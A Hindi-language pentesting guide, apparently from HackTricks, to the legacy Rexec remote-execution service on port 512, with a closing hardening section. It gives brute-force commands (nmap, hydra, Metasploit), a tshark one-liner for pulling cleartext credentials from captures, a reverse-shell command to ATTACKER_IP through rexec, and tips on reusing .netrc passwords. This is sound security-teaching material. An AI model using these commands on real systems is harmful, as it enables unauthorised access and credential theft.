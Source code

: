 # 512 - Pentesting Rexec

{{#include ../banners/hacktricks-training.md}}

## Basic Information

Rexec (remote **exec**) मूल Berkeley *r*-services सूट में से एक है (जिसमें `rlogin`, `rsh`, … शामिल हैं)। यह **एक दूरस्थ कमांड-निष्पादन** क्षमता प्रदान करता है **जो केवल स्पष्ट-टेक्स्ट उपयोगकर्ता नाम और पासवर्ड के साथ प्रमाणित होता है**। इस प्रोटोकॉल को 1980 के दशक की शुरुआत में परिभाषित किया गया था (देखें RFC 1060) और आज इसे **डिजाइन द्वारा असुरक्षित** माना जाता है। फिर भी, यह कुछ विरासती UNIX / नेटवर्क-से जुड़े उपकरणों में डिफ़ॉल्ट रूप से सक्षम है और कभी-कभी आंतरिक pentests के दौरान दिखाई देता है।

**डिफ़ॉल्ट पोर्ट:** TCP 512 (`exec`)
```
PORT    STATE SERVICE
512/tcp open  exec
```
> 🔥  सभी ट्रैफ़िक - जिसमें क्रेडेंशियल्स शामिल हैं - **असंक्रमित** रूप से प्रेषित होता है। नेटवर्क को स्निफ़ करने की क्षमता रखने वाला कोई भी व्यक्ति उपयोगकर्ता नाम, पासवर्ड और कमांड को पुनर्प्राप्त कर सकता है।

### प्रोटोकॉल त्वरित अवलोकन

1. क्लाइंट TCP 512 से कनेक्ट होता है।
2. क्लाइंट तीन **NUL-terminated** स्ट्रिंग्स भेजता है:
* पोर्ट नंबर (ASCII के रूप में) जहां वह stdout/stderr प्राप्त करना चाहता है (अक्सर `0`),
* **उपयोगकर्ता नाम**,
* **पासवर्ड**।
3. निष्पादित करने के लिए एक अंतिम NUL-terminated स्ट्रिंग के साथ **कमांड** भेजा जाता है।
4. सर्वर एकल 8-बिट स्थिति बाइट (0 = सफलता, `1` = विफलता) के साथ प्रतिक्रिया करता है, इसके बाद कमांड आउटपुट होता है।

इसका मतलब है कि आप `echo -e` और `nc` के अलावा कुछ भी नहीं लेकर आदान-प्रदान को पुन: उत्पन्न कर सकते हैं:
```bash
(echo -ne "0\0user\0password\0id\0"; cat) | nc <target> 512
```
यदि क्रेडेंशियल मान्य हैं, तो आपको उसी कनेक्शन पर सीधे `id` का आउटपुट प्राप्त होगा।

### क्लाइंट के साथ मैनुअल उपयोग

कई लिनक्स वितरण अभी भी **inetutils-rexec** / **rsh-client** पैकेज के अंदर पुराना क्लाइंट प्रदान करते हैं:
```bash
rexec -l user -p password <target> "uname -a"
```
यदि `-p` को छोड़ दिया गया है, तो क्लाइंट पासवर्ड के लिए इंटरैक्टिव रूप से संकेत देगा (जो कि वायर पर स्पष्ट पाठ में दिखाई देगा!)।

---
## Enumeration & Brute-forcing

### [**Brute-force**](../generic-hacking/brute-force.md#rexec)

### Nmap
```bash
nmap -p 512 --script rexec-info <target>
# Discover service banner and test for stdout port mis-configuration

nmap -p 512 --script rexec-brute --script-args "userdb=users.txt,passdb=rockyou.txt" <target>
```
`rexec-brute` NSE उपरोक्त वर्णित प्रोटोकॉल का उपयोग करके बहुत तेजी से क्रेडेंशियल्स का प्रयास करता है।

### Hydra / Medusa / Ncrack
```bash
hydra -L users.txt -P passwords.txt rexec://<target> -s 512 -t 8
```
`hydra` का एक समर्पित **rexec** मॉड्यूल है और यह सबसे तेज़ ऑफ़लाइन ब्रूटफोर्सर बना रहता है। `medusa` (`-M REXEC`) और `ncrack` (`rexec` मॉड्यूल) का उपयोग उसी तरह किया जा सकता है।

### Metasploit
```
use auxiliary/scanner/rservices/rexec_login
set RHOSTS <target>
set USER_FILE users.txt
set PASS_FILE passwords.txt
run
```
मॉड्यूल सफल होने पर एक शेल उत्पन्न करेगा और क्रेडेंशियल्स को डेटाबेस में स्टोर करेगा।

---
## क्रेडेंशियल्स की स्निफिंग

क्योंकि सब कुछ स्पष्ट-टेक्स्ट में है, **नेटवर्क कैप्चर अमूल्य हैं**। ट्रैफ़िक की एक प्रति के साथ आप लक्ष्य को छुए बिना क्रेड्स निकाल सकते हैं:
```bash
tshark -r traffic.pcap -Y 'tcp.port == 512' -T fields -e data.decoded | \
awk -F"\\0" '{print $2":"$3" -> "$4}'  # username:password -> command
```
(In Wireshark में *Decode As …​* TCP 512 → REXEC सक्षम करें ताकि अच्छी तरह से पार्स किए गए फ़ील्ड देख सकें।)

---
## Post-Exploitation tips

* दिए गए उपयोगकर्ता के विशेषाधिकारों के साथ कमांड चलाए जाते हैं। यदि `/etc/pam.d/rexec` गलत तरीके से कॉन्फ़िगर किया गया है (जैसे `pam_rootok`), तो कभी-कभी रूट शेल संभव होते हैं।
* Rexec उपयोगकर्ता के शेल की अनदेखी करता है और कमांड को `/bin/sh -c <cmd>` के माध्यम से निष्पादित करता है। इसलिए आप कई कमांड को जोड़ने या रिवर्स शेल उत्पन्न करने के लिए सामान्य शेल-एस्केप ट्रिक्स (`;`, ``$( )``, बैकटिक) का उपयोग कर सकते हैं:
```bash
rexec -l user -p pass <target> 'bash -c "bash -i >& /dev/tcp/ATTACKER_IP/4444 0>&1"'
```
* पासवर्ड अक्सर अन्य सिस्टम पर **~/.netrc** में संग्रहीत होते हैं; यदि आप एक होस्ट से समझौता करते हैं तो आप उन्हें पार्श्व आंदोलन के लिए पुन: उपयोग कर सकते हैं।

---
## Hardening / Detection

* **rexec को उजागर न करें**; इसे SSH से बदलें। लगभग सभी आधुनिक *inetd* सुपर सर्वर डिफ़ॉल्ट रूप से सेवा को टिप्पणी करते हैं।
* यदि आपको इसे बनाए रखना है, तो TCP wrappers (`/etc/hosts.allow`) या फ़ायरवॉल नियमों के साथ पहुंच को सीमित करें और प्रति-खाता मजबूत पासवर्ड लागू करें।
* :512 पर ट्रैफ़िक और `rexecd` प्रक्रिया लॉन्च के लिए निगरानी रखें। एकल पैकेट कैप्चर समझौते का पता लगाने के लिए पर्याप्त है।
* `rexec`, `rlogin`, `rsh` को एक साथ निष्क्रिय करें - वे अधिकांश समान कोडबेस और कमजोरियों को साझा करते हैं।

---

## References

* Nmap NSE `rexec-brute` दस्तावेज़ – [https://nmap.org/nsedoc/scripts/rexec-brute.html](https://nmap.org/nsedoc/scripts/rexec-brute.html)
* Rapid7 Metasploit मॉड्यूल `auxiliary/scanner/rservices/rexec_login` – [https://www.rapid7.com/db/modules/auxiliary/scanner/rservices/rexec_login](https://www.rapid7.com/db/modules/auxiliary/scanner/rservices/rexec_login)
{{#include ../banners/hacktricks-training.md}}
